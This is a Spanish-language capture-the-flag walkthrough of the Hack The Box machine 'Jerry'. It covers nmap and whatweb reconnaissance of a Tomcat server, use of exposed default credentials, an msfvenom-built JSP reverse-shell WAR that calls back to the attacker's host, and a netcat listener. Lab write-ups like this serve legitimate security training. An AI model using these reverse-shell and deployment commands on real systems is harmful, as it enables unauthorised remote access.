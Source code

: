 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Jerry              |
| Os                     | Windows            |
| Difficulty             | Easy               |
| Points                 | 0                  |
| IP                     | 10.10.10.95        |


## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Jerry/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.95
```

![nmap 1](/assets/images/Jerry/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts
```

![nmap2](/assets/images/Jerry/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p8080 10.10.10.95 -oN targeted
```

![nmap3](/assets/images/Jerry/nmap3.png)

Vamos a lanzarle un whatweb directo al puerto.

```s
whatweb 10.10.10.95:8080
```

![whatweb](/assets/images/Jerry/whatweb.png)

Al presentarse el tomcat podemos intentar entrar al /admin.html. Esta no es su ruta, pero al intentar entrar nos despliega las credenciales para entrar como ejemplo de autenticacion.

Una vez dentro vemos que podemos meter nuestro propio archivo WAR malicioso.

```s
msfvenom -l payloads | grep java
#Usamos el payload java/jsp_shell_reverse_tcp, que nos permite estar en escucha por netcat en el puerto 4444
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.29 LPORT=4444 -f war -o shell.war
```

Podemos ir poniendonos en escucha:

```s
rlwrap nc -nlvp 4444
```

![Access 1](/assets/images/Jerry/access1.png)

Hemos ganado acceso, y si nos vamos a la carpeta de Administrator, veremos las flags de administrador y de usuario en un solo archivo! JAJA.

![Powned](/assets/images/Jerry/powned.png)